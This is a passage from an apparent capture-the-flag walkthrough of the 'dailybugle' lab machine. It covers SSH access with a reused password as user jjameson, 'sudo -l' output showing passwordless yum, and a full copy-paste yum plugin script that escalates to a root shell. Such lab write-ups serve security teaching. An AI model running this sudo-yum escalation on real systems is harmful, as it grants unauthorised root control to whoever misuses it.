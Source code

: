 ```
ssh root@10.10.234.214
```

Unfortunately, it looks like the password does not work for root.

So let's try it on the user we found, jjameson, to see if the password works.

### Success! We've got access to a user. Time for some privilege escalation.

Let's go through and try to escalate privileges with yum from our user account.

Run sudo -l to list permissions and see if jjameson can run yum on dailybugle.

```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid,
    always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Since jjameson has privileges for yum, we will be using a known custom plugin for [escalation](https://gtfobins.github.io/gtfobins/yum/) to a root shell.

* Copy and paste the example into the shell to escalate

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
